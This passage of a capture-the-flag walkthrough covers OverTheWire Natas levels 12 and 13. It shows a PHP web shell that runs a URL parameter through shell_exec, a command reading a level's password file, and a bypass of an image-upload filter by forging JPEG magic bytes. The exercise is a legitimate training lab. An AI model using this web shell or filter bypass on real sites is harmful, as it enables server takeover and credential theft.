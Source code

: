 We already know from the previous levels that the passwords are all located in the same directory called: natas_webpass
So let's edit the URL again, remove the code that we added before and replace it with this one 
```
?e=cat%20/etc/natas_webpass/natas13
```

Press `ENTER` and the password will be displayed on the screen : lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
<br/>

---

### Natas 13
Access the website with the link : http://natas13.natas.labs.overthewire.org .  <br>
Insert the credentials :  <br>
username : natas13  <br>
password : lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9 <br>

Once again we have a web-form where we can submit a file, this time it tells us that it is only accepting JPEG files for security reasons.
The file size also has to be of max 1KB.
The script function similar to the one in the previous level, renaming our upload with a random string and changing its extension to `.jpg` . 

Let's start by creating a php script that will give us a shell, as on level 12
```
nano shell.php
```
paste inside this and save:
```php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

Let's verify if it actually filter for images, we can chose our shell file created in the previous level and implement the same method...ok this time is actually different, in fact we get the message "File is not an image", we need to find a way around.

At this point i firstly went for the easiest try, uploading the shell file with a double extension like this: `shell.php.jpg` but the site understood that the file was still not an image.

Now i know that there is for sure:
- File size filtering;
- File extension filtering;
- Possibly mime type or magic number filtering, let's test this one.

I want to check if also the magic number filtering has been implemented, to do so we have to edit the first 4 couple of digits in the file hex view, those are the one used to identify a certain file type, so i want to fake it is a jpeg file ad use it's magic number.

Let's use a binary to edit the file
```bash
hexedit shell.php
```
Substitute the first block with this one: FF-D8-FF-E0 and that press `CRTL + X` to save and exit.

Now i try to upload the file and finally it accepts it, but there is a problem, the shell doesn't work; looking at the output on the screen i realized that, because we edited the magic number, we also have to modify the original script in the shell, to preserve our php.
All we have to do is add jpeg at front
```php
jpeg<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```
Now we can go back in *hexedit*, edit the first 4 bytes and upload the file.
